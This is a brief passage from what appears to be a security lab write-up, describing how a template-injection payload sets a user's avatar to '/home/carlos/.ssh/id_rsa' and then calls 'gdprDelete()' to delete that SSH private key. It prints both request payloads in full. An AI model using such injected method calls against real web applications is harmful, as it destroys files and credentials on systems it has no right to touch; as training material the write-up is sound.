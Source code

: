 ```php
```

Here there is the public function `gdprDelete` which deletes the avatar. 

In this case let's set the `id_rsa` file that we want to delete, as the avatar.

`blog-post-author-display=user.setAvatar('/home/carlos/.ssh/id_rsa','image/png')&csrf=cUmfG1uDRV0PNWITUldBDQi0tlwTcfhh`

And now call the function to delete the avatar `blog-post-author-display=user.gdprDelete()&csrf=cUmfG1uDRV0PNWITUldBDQi0tlwTcfhh`, which in our case is the `id_rsa` file. And the lab is solved.